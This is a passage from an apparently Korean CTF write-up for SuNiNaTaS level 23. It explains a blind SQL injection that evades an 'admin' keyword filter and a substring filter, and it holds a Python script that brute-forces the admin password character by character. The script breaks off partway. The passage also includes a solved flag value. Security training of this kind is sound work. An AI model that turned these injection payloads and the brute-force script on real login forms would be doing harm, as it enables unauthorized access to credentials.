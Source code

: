 ***Authkey : N1c3Bilnl)***


## level 23 - Blind SQL injection
22번 문제와 유사하지만 “admin” 문자열이 필터링되어 id 필드에 입력할 수 없다. MS-SQL의 concatenation 문법을 이용해 adm’+’in’ 과 같이 입력하여 필터링을 우회한다. 또한, substring 함수가 필터링되므로 비슷한 기능을 하는 left 함수를 이용한다. adm'+'in'and(left(pw,1)='V')--와 같은 쿼리문을 시도한다. 하지만 id / pw필드에 30자리 글자수 제한까지 걸려있어 위 방법으로는 ‘V3’까지의 pw 값만 뽑아낼 수 있다. adm’+’in’and(len(pw)=1)--와 같은 쿼리문을 시도하여 pw의 길이를 알아낸다. pw의 길이는 12이다. pw의 처음 2자리가 ‘V3’임을 알고 있으므로, admin을 id 필드에 넣지 않고도 admin의 pw를 유추할 수 있다. ‘or left(pw,2)=’V3’--와 같은 쿼리문을 시도한다. 마찬가지로 right함수를 이용하여 pw의 값을 뽑아내고 left에 의해 뽑아낸 값과 right에 의해 뽑아낸 값을 겹치는 부분을 제외하고 합치면 온전한 pw 값을 알아낼 수 있다.

```python
import requests

login_url = 'http://suninatas.com/member/mem_action.asp'
with requests.Session() as s:
    main_login = {'Hid': '', 'Hpw': ''}

    main_login_req = s.post(login_url, data=main_login)

    if main_login_req.status_code != 200:
        raise Exception('connection error')
    
    #로그인 세션 유지

    
    level23 = 'http://suninatas.com/Part_one/web23/web23.asp'
    login = {'id':'', 'pw':1234} # login data

    password = 'V3'
    log = ''
    # blind sql injection query
    str1 = "'or left(pw,"
    column = 3
    str2 = ")='"
    alphabet = 32 # space
    str3 = "'--"
    while(column <= 10): # loop for column
        log += 'column : ' + str(column) + '\n'
        while(alphabet <= 126): # loop for alphabet
            # upper case
            str_id = str1 + str(column) + str2 + password + chr(alphabet) + str3
            login['id'] = str_id
            req = s.post(level23, data=login)
            log += 'query : ' + str_id + '\n'
            if 'OK' in req.text:
                password += chr(alphabet)
                break
            
            alphabet += 1
        log += 'password : ' +  str(password) + '\n'
        alphabet = 32
        column += 1
    
    with open('level23-left.txt', 'w') as f:
        f.write(log)

    password = 'I'
    log = ''
    # blind sql injection query
    str1 = "'or right(pw,"
    column = 2
    str2 = ")='"
    alphabet = 32 # space
```